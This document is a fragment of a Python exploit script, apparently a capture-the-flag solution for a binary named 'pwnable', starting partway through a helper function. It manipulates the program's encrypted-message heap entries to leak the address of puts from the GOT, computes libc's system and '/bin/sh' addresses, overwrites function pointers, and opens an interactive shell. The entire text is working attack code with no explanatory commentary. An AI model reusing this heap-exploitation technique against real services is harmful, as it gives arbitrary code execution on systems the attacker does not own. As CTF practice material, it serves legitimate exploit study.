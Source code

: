 ```python
    sock.sendline("3")
    sock.recvuntil("Message #" + str(index) + "\n")
    sock.recvuntil("Plaintext: ")
    plaintext = sock.recvline().rstrip()
    sock.recvuntil("Ciphertext: ")
    ciphertext = sock.recvline().rstrip()
    return plaintext, ciphertext

def edit_encrypted_message(index, message):
    sock.recvuntil(">")
    sock.sendline("4")
    sock.recvuntil("edit\n")
    sock.sendline(str(index))
    sock.recvuntil("message\n")
    sock.sendline(message)

elf = ELF("./pwnable")
plt_puts = 0x004006e0
libc = ELF("./libc-2.17.so")
sock = Socket("127.0.0.1", 9001)
_ = input()

sock.recvline()
sock.sendline("0")

# libc leak
payload = b''
payload += p64(elf.got("puts"))
payload += p64(elf.got("puts"))
payload += p64(plt_puts)
payload += p64(plt_puts)
payload += p64(0)

encrypt_message(2, 0x200, "A") # 0
remove_encrypted_message(0)
encrypt_message(3, 0, '') # 0
encrypt_message(3, 0, '') # 1

edit_encrypted_message(0, payload)

edit_encrypted_message(1, '')
addr_puts = u64(sock.recvline().rstrip())
libc_base = addr_puts - libc.symbol("puts")
addr_system = libc_base + libc.symbol("system")
addr_binsh = libc_base + next(libc.search("/bin/sh"))
dump("libc_base = " + hex(libc_base))

# get the shell!
payload = b''
payload += p64(addr_binsh)
payload += p64(addr_binsh)
payload += p64(addr_system)
payload += p64(addr_system)
payload += p64(0)
edit_encrypted_message(0, payload)

edit_encrypted_message(1, '')

sock.interactive()
```
